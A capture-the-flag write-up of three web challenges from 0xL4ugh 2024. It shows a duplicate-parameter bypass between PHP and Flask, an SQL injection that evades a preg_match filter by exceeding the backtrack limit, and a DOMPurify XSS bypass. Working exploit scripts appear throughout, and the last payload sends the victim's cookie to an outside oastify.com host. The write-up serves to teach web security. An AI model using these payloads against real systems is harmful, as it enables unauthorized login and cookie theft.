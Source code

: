 ```yaml
---
layout: post
title:  "0xL4ugh 2024"
---
```


Last weekend, I participated in the 0xL4ugh CTF as part of [ARESx](https://twitter.com/ARESxCTF). There were some infrastructure problems, but overall it was a fun CTF and we secured the 14th place.

Unfortunately there was only 1 pwn challenge so I tried myself at web challenges and managed to solve 3. This is a write up of them: [Micro](#micro-sec), [Simple WAF](#waf-sec) and [DamnPurify](#purify-sec).

<h2 id="micro-sec">Micro</h2>
Micro was a proxy kind of challenge were one had to login as admin into a Flask web page which had a php-based web page as proxy. The credentials for the admin account were given in the challenge description (admin:admin) so the goal was simply to login.

The problem of the challenge was that the php page denied all requests with `admin` as username:
```php
if(Check_Admin($username) && $_SERVER['REMOTE_ADDR']!=="127.0.0.1")
{
    die("Admin Login allowed from localhost only : )");
}
else
{
    send_to_api(file_get_contents("php://input"));
}
```
The `REMOTE_ADDR` is taken from the IP socket so it cant be spoofed and the admin check was a simple regex which also looked safe.

### Bug
Proxy kind of challenges often have something todo with the proxy and the web page functioning differently which allows us to bypass the protective measures.

For this challenge, a clear hint is that the code uses `file_get_contents("php://input")`, which reads the complete request body instead of taking the username and password from the `$_POST` array, to forward the request to the backend server.

The vulnerability is that when sending the same key twice in a POST request body, php will return the value of the second key via `$_POST['username']` and flask will return the value of the first key via `request.form.get('username')`.

### Exploit
To exploit this we can simply send a post request that contains the key `username` twice, with the first value being `admin` and second value being anything but admin.

```python
URL ="http://20.115.83.90:1338/"

def login():
    data = [('username', 'admin'), ('password', 'admin'),('login-submit', '1'),('username','test')]

    r = requests.post(URL, data=data)

    print(r.content)

login()
```

<h2 id="waf-sec">Simple WAF</h2>
For Simple WAF one had to simply login as a valid user to get the flag. Since the only user in the database was admin, this again meant one had to login as admin.

```php
$username=$_POST['username'];
$password=md5($_POST['password']);
if(waf($username))
{
    die("WAF Block");
}
else
{
    $res = $conn->query("select * from users where username='$username' and password='$password'");

    if($res->num_rows ===1)
    {
        echo "0xL4ugh{Fake_Flag}";
    }
    else
    {
        echo "<script>alert('Wrong Creds')</script>";
    }
}
```
There is a pretty obvious SQL injection vulnerability for the `username` parameter since we fully control its contents and the code directly uses it in a SQL query. The problem however is that the username is protected by a `waf` function which limits us to only lowercase letters in the username:


```php
function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}
```
This prevents us from doing any SQL injection since we cant modify the statement.

### Bug
The bug for this challenge is a pretty big footgun in my opinion as it is not even mentioned in the documentation of the `preg_match` function. Only in the user contributed notes people mention a potential problem.

The behavior of the `preg_match` function is affected by [runtime configurations](https://www.php.net/manual/en/pcre.configuration.php#ini.pcre.backtrack-limit) such as the `pcre.backtrack_limit`. This limit sets the maximum number of backtracking steps that the regex library is allowed to make while attempting to match a regular expression. The default backtracking limit is `1000000`. If the regex matching backtracks more than this limit, `preg_match` will return `false` without throwing any kind of error.

### Exploit
We can exploit this behavior by simply appending a very long matching string before our SQL injection to pass the `waf` check:
```python
URL="http://20.115.83.90:1339/"

def login():
    print("A"*0x100000+"' OR '1'='1' -- -")

    data = {
        'username': "A"*0x100000+"' OR '1'='1' -- -" ,
        'password': 'admin',
        'login-submit': '1'
    }

    r = requests.post(URL, data=data)

    print(r.content)

login()
```


<h2 id="purify-sec">DamnPurify</h2>

DamnPurify was a challenge that used the [DOMPurify](https://github.com/cure53/DOMPurify) XSS sanitizer to try and prevent XSS. A very simple web page was given which takes the value passed via the xss URL parameter, sanitizes it via DOMPurify and then uses a regex on it which replaces `style` blocks with an empty string.

The goal of the challenge was to achieve XSS despite the sanitization and steal the cookie of the bot.

```html
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <script src="https://cure53.de/purify.js"></script>
  </head>
  <body>
<script>
    window.onload = () => {
        const params = new URLSearchParams(location.search);
        injection = params.get("xss");
        if (injection)
        {
            injection = DOMPurify.sanitize(injection);

            document.body.innerHTML = injection.replace(/<style>.*<\/style>/gs, "");
        }
    };
</script>
</html>
```

As DOMPurify is used extensively in practice, finding a bug directly in the library was unlikely the goal of the challenge. Therefore it had to have something to do with the regex used.

### Exploit
Nothing special really I just tried a lot of things until something worked. Final payload:

```txt
http://20.115.83.90:1337/report.php?url=http://127.0.0.1/?xss=<img src="a <style>"><style>h1 {color: white</style> " onerror=fetch("http://zdg7rcb3lqhtsuix9r6uopbk0b62uuij.oastify.com/".concat(document.cookie))</p>
```